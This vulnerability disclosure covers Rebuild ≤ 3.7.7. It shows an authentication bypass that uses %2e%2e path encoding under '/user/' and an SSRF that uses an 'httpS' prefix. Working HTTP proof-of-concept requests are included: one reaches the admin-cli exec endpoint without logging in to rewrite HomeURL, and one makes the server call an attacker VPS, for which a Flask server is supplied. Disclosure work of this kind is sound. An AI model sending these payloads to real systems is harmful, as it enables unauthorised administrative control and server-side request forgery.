





# There is an Incorrect Access Control vulnerability in the latest version of rebuild

- Codebase: https://github.com/getrebuild/rebuild/
- Affected version
  - Rebuild ≤ 3.7.7(latest)

1. The affected source code class is `com.rebuild.web.RebuildWebInterceptor`, and the affected function is `preHandle` In the filter code, use `servletRequest.getRequestURI()` to obtain the request path, and then determine whether the path contains `/user/` and do not contain `/user/admin`. If so, execute `return true`  to skip this Interceptor. Else, redirect to `/user/login` api.






2. The problem lies in using `servletRequest.getRequestURI()` to obtain the request path. The path obtained by this function will not parse special symbols, but will be passed on directly. **Although there is a `..` check operation, but we can use URL encoding to bypass it, e.g. %2e%2e.**  

   The prerequisite for the vulnerability exploitation is that the `server.servlet.context-path` configuration is non-empty. Here, it is exemplified with `/demo`.

   Taking one of the backend interfaces `/commons/ip-location` as an example(full path in case is `/demo/commons/ip-location`), using `/user/%2e%2e/demo/commons/ip-location` can make it satisfy `requestUri.contains("/user/" )`, and at the same time, it can request the `ip-location` interface to achieve login bypass.




POC:

```html
GET /user/%2e%2e/demo/commons/ip-location?ip=www.baidu.com HTTP/1.1
Host: localhost:18080
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: localhost:18080
Connection: keep-alive
```

Other case like api: `/admin/admin-cli/exec` can do some setting, like POC below can change the HomeURL of rebuild

```html
POST /user/%2e%2e/demo/admin/admin-cli/exec HTTP/1.1
Host: localhost:18080
User-Agent: Apifox/1.0.0 (https://apifox.com)
Content-Type: text/plain
Accept: */*
Host: localhost:18080
Connection: keep-alive

syscfg HomeURL https://hacked.by.racerz
```




### SSRF Exploit

The problematic code is located in the `com.rebuild.web.admin.rbstore.RBStoreController#loadDataIndex` method, where the type parameter is controllable.


The `com.rebuild.utils.CommonsUtils#isExternalUrl` method checks whether the URL starts with `http://` or `https://`.


Subsequently, the `com.rebuild.core.rbstore.RBStore#fetchRemoteJson` method checks again whether the `fileUrl` starts with `http`. If it doesn’t, a specified URL prefix is added. Then, the method calls `OkHttpUtils.get`, which ultimately invokes `okhttp3.OkHttpClient#newCall` to send a network request to the specified address.



Since the `OkHttpClient` class is case-sensitive regarding URL request addresses, the `httpS` prefix can be used to bypass the `com.rebuild.utils.CommonsUtils#isExternalUrl` check, leading to an SSRF vulnerability.

To exploit this vulnerability, you need to set up a malicious HTTPS service on a VPS. Here, Python Flask is used as an example.

```python
from flask import Flask, jsonify
import os

app = Flask(__name__)

cur_dir = os.getcwd()
cert_file = cur_dir + "/cert/racerz.top_nginx/racerz.top_bundle.pem"
key_file = cur_dir + "/cert/racerz.top_nginx/racerz.top.key"

@app.route('/index.json')
def hello():
    return jsonify(
        user="racerz"
    )

if __name__ == "__main__":
   app.run(ssl_context=(cert_file, key_file), host='0.0.0.0', port=8777)
```

After starting the server, send the following POC to the REBUILD web service.

```http
GET /user/%2e%2e/demo/admin/rbstore/load-index?type=httpS://vps:8777/ HTTP/1.1
Host: localhost:18080
User-Agent: Apifox/1.0.0 (https://apifox.com)
Content-Type: text/plain
Accept: */*
Host: localhost:18080
Connection: keep-alive
```

The interface call was successful, and the request was received on the VPS.


